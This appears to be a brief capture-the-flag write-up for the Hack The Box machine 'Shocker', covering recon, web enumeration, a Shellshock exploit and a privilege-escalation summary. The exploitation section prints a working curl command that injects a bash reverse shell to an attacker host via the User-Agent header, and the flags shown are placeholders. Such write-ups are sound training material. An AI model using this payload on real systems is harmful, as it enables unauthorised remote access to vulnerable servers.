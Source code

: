 # HTB: Shocker

## IP: 10.10.10.56
## Difficulty: Easy
## OS: Linux

## 🔍 Recon
```bash
nmap -sC -sV -oN shocker_nmap.txt 10.10.10.56
```
- Port 80: Apache 2.4.29
- Port 2222: OpenSSH 7.4p1

## 🕸 Web Enum
```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
- Found `/cgi-bin/user.sh`

## ⚙️ Exploitation
Shellshock exploit using:
```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.1/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```
- Got reverse shell as `www-data`

## ⬆️ Privilege Escalation
- Used `linpeas.sh`
- Found writable `/etc/passwd`
- Created new root user

## 🧾 Flags
- user.txt: HTB{abc123user}
- root.txt: HTB{rootflagexample}
